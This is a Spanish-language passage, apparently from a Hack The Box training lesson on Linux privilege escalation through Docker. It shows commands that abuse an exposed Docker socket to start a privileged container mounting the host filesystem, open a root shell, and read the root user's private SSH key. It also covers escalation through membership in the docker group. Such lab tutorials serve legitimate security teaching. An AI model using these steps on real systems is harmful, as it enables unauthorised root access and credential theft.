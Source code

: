 Podemos crear nuestro propio contenedor Docker que mapea el directorio raíz del host (`/`) al directorio `/hostsystem` en el contenedor. Con esto, obtendremos acceso completo al sistema host. Por lo tanto, debemos mapear estos directorios de acuerdo y usar la imagen Docker `main_app`.

```r
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

Ahora, podemos iniciar sesión en el nuevo contenedor Docker privilegiado con el ID `7ae3bcc818af` y navegar al `/hostsystem`.

```r
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

Desde allí, nuevamente podemos intentar obtener la clave SSH privada e iniciar sesión como root o como cualquier otro usuario en el sistema con una clave SSH privada en su carpeta.

### Docker Group

Para ganar privilegios de root a través de Docker, el usuario con el que estamos conectados debe estar en el grupo `docker`. Esto le permite usar y controlar el Docker daemon.

```r
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternativamente, Docker puede tener SUID configurado, o estamos en el archivo Sudoers, lo cual nos permite ejecutar `docker` como root. Las tres opciones nos permiten trabajar con Docker para escalar nuestros privilegios.

La mayoría de los hosts tienen una conexión directa a Internet porque las imágenes base y los contenedores deben ser descargados. Sin embargo, muchos hosts pueden estar desconectados de Internet por la noche y fuera del horario laboral por razones de seguridad. Sin embargo, si estos hosts están ubicados en una red donde, por ejemplo, un servidor web debe pasar, aún se puede acceder a él.

Para ver qué imágenes existen y a cuáles podemos acceder, podemos usar el siguiente comando:

```r
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```
